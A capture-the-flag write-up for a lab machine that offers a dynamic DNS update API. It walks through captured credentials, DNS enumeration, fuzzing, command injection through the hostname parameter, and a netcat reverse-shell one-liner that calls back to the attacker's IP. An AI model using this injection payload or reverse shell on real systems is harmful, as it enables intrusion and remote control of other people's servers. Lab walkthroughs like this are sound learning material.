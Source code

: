 ## Info 
### Credential
 User  | Password | Service | Note
-------|----------|---------|------
dynadns|sndanyd   |         |
dns    |          |         |

### System
- domain: `dnsalias.htb`, `dynamicdns.htb`, `no-ip.htb`, `dyna.htb`
- DNS: `dns1.dyna.htb`, `hostmaster.dyna.htb`

### HTTP
> We are providing dynamic DNS for anyone with the same API as no-ip.com has.


## Path
### User
1. According to the webpage, it has the same API as no-ip.com, so we can use the same API to register a dynamic DNS.
```
GET /nic/update?hostname=ice1187.no-ip.htb&myip=10.10.16.22 HTTP/1.1
Host: no-ip.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Authorization: Basic ZHluYWRuczpzbmRhbnlk
$ nslookup
> server 10.10.10.244
Default server: 10.10.10.244
Address: 10.10.10.244#53
> ice1187.no-ip.htb
Server:         10.10.10.244
Address:        10.10.10.244#53

Name:   ice1187.no-ip.htb
Address: 10.10.16.22
```
2. From `dig`, I found the domain name of the DNS server.
```
$ dig TXT ice1187.no-ip.htb @$ip
; <<>> DiG 9.16.1-Ubuntu <<>> TXT ice1187.no-ip.htb @10.10.10.244

no-ip.htb.              60      IN      SOA     dns1.dyna.htb. hostmaster.dyna.htb. 2021030304 21600 3600 604800 60
```
3. When registering to `dyna.htb`, it shows an error.
```
Request: 
GET /nic/update?hostname=ice1187.dyna.htb&myip=10.10.16.22 HTTP/1.1

Response:
911 [wrngdom: dyna.htb]
```
4. Fuzzing the parameter of the API shows it execute `nsupdate` to update the DNS information, so possible command injection here.
```
$ ffuf -u "http://$ip/nic/update?hostname=FUZZa.no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk" -w /opt/SecLists/Fuzzing/special-chars.txt
#                       [Status: 200, Size: 16, Words: 3, Lines: 2]
&                       [Status: 200, Size: 16, Words: 3, Lines: 2]
:                       [Status: 200, Size: 22, Words: 3, Lines: 2]
;                       [Status: 200, Size: 22, Words: 3, Lines: 2]
"                       [Status: 200, Size: 75, Words: 6, Lines: 5]   <- Size is much larger
```
```
Burp: 
Request:
	GET /nic/update?hostname="a.no-ip.htb

Response:
	server 127.0.0.1
	zone no-ip.htb
	update delete a.no-ip.htb
	good 10.10.16.22

Request:
	GET /nic/update?hostname=;a.no-ip.htb

Response:
	911 [nsupdate failed]
```
5. Use command injection to get reverse shell.
```
Request:
	GET /nic/update?hostname=";id;a.no-ip.htb
Response:
	server 127.0.0.1
	zone no-ip.htb
	update delete 
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	good 10.10.16.22
```
6. Use `rev.py` to get shell.
```
$ python3 rev.py
cmd: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.22 13337 >/tmp/f
```
7. In `/home/bindmgr` found `suport-case-XXXXXX` directory. There is an openssh private key in the `XXXXX-debuggin.script`, but not useful at this time.
8. Found the hostname is `dynstr.dyna.htb`.
